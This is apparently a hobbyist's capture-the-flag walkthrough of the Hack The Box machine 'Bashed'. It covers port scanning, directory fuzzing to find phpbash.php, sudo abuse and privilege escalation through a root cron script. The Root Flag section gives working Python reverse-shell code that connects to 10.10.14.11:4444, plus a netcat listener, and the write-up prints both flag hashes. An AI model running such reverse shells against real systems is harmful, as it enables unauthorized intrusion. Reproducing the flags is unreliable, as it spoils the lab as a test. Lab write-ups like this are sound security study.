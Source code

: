 # Tasks

[**How many open TCP ports are listening on Bashed?**](#task-1)

[**What is the relative path on the webserver to a folder that contains phpbash.php?**](#task-2)

[**What user is the webserver running as on Bashed?**](#task-3)

[**User Flag**](#user-flag)

[**www-data can run any command as a user without a password. What is that user's username?**](#task-5)

[**What folder in the system root can scriptmanager access that www-data could not?**](#task-6)

[**What is filename of the file that is being run by root every couple minutes?**](#task-7)

[**Root Flag**](#root-flag)

# Tools Used

- nmap
- gobuster

# Skills Used

- Directory fuzzing
- Python scripting (script kiddie moment tho lmao)

# Solutions

## Task 1

I did this first:

```
nmap -sCV [IP Address]
```

Only port 80 showed:

![image](https://github.com/user-attachments/assets/fbfc0cb3-eeed-447c-86f6-5fcce1245392)

So, considering it was only port 80 (which was strange), I tried using the ``-sS`` flag to show all TCP ports.

It was the same thing :///

**Answer: 80**

## Task 2

_Gobuster_ time:

```
gobuster dir -u http://[IP Address] -w /usr/share/dirb/wordlists/common.txt -x php
```

Also, you can use other wordlists if you like, and maybe include other file extensions.

![image](https://github.com/user-attachments/assets/d233af5b-05a6-4c3b-b7e8-209ab2cb79f8)

After that, I checked each directory one-by-one (yes I know, it's inefficient, but I forgot what the command was to recursively search endpoints lmao).

I found it here in _/dev_:

![image](https://github.com/user-attachments/assets/10525665-1438-4bbd-8729-aa6fcfb10c67)

**Answer: /dev**

## Task 3

Naturally, I got curious as to why we want to see ```phpbash.php```:

![image](https://github.com/user-attachments/assets/09c6df72-8ce9-45eb-997d-fe2c968fbfeb)

Apparently it really was a bash lmao.

Anyways, apparently I'm either blind or retarded lmao, I misread the task as "find the name of the webserver on Bashed", when I just needed to find the _user_ ://

It was one of the first commands I ran too:

![image](https://github.com/user-attachments/assets/36dca046-6585-4d1f-a557-c0b4d97a2807)

See ://

**Answer: www-data**

## User Flag

Here you go:

![image](https://github.com/user-attachments/assets/6964a817-0da7-4aaa-97ef-03760a56bd61)

**Answer: c9097fe5a29264941a6b3a7798018454**

## Task 5

Simple ```sudo -l``` will do:

![image](https://github.com/user-attachments/assets/0a689431-444f-40cc-baeb-120a7b783399)

**Answer: scriptmanager**

## Task 6

Simple ```ls -l``` will do (no need for ```-a``` since we don't need to see hidden files here, just permissions):

![image](https://github.com/user-attachments/assets/4f9193c8-712f-4b6f-ae9a-403f37a02cdf)

**Answer: scripts**

## Task 7

Ok so, I looked at the official writeup and it made me notice that I can run any command as _scriptmanager_, which I kinda overlooked lmao.

So anyways, I switched to that user real quick with this:

```
sudo -u scriptmanager bash -i
```

That way, I can do more stuff.

Or at least, I would've if it'd let me ://

So instead, I just used ```cat``` as _scriptmanager_ lmao.

![image](https://github.com/user-attachments/assets/a1a9bc3e-e027-4b38-8075-56bb20221c05)

So, supposedly this was the file that was being executed every few minutes, but I don't actually have proof now do I.

So now, I'm gonna go look for proof...

![image](https://github.com/user-attachments/assets/a055dacf-0118-4895-8dc3-930876ac3ba2)

I found proof :D, test runs every 6 minutes (if I'm reading it right).

Embarassingly, I forgot cronjobs were not daemons lmao.

**Answer: test.py**

## Root Flag

So I've been stuck on this for wayyyyy to long, cuz I forgot to establish an inital reverse shell that was more interactive than the web shell given to us by _phpbash.php_.

Basically, here's what I did to finally get out of that roadblock:

```
python3 -c 'import os,pty,socket;s=socket.socket();s.connect(([IP Address],[Port]));[os.dup2(s.fileno(),f)for f in(0,1,2)];pty.spawn("sh")'
```

Real simple right?

Yeah I forgot to do that lmao.

Anyways, on my main machine, I was listening for the request via:

```
nc -lvnp [Port]
```

So now, I can finally do this:

![image](https://github.com/user-attachments/assets/bfc89e88-06af-4a97-beca-0c23cde01eba)

Now that it's interactive, I can establish a shell as _scriptmanager_, FINALLY.

Anyways, now we gotta tweak that _test.py_ file to establish a reverse shell, so since we already used a python script to establish that, we may as well reuse that and just change the port to a different one.

**P.S.** In the [**revshell generator**](https://www.revshells.com/), be sure to set the shell to _/bin/sh_ (that's what worked for me).

Here's the exact scripts just for future reference:

```
import socket,subprocess,os,pty;
s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);
s.connect(("10.10.14.11",4444));
os.dup2(s.fileno(),0);
os.dup2(s.fileno(),1);
os.dup2(s.fileno(),2);
pty.spawn("/bin/sh");
```

Also now that I look at it properly, you can probably get away with not importing ```subprocess``` since we're not using it to get a shell anyway lol.

Anyways, after a wee bit of waiting (and after partially [stabilizing](https://medium.com/@varunrajamirtharaj/stabilizing-a-shell-getting-a-fully-functional-tty-31232897f2f5) my interactive shell to use _nano_), I finally got what I wanted.

![image](https://github.com/user-attachments/assets/8087966f-ab6f-4c90-be3d-9b61f293f0b5)

That honestly took wayyyy too long (even with writeups lmao), but it was still pretty fun regardless.

**Answer: b48a1c0925f34e00d21827778ddc9a26**
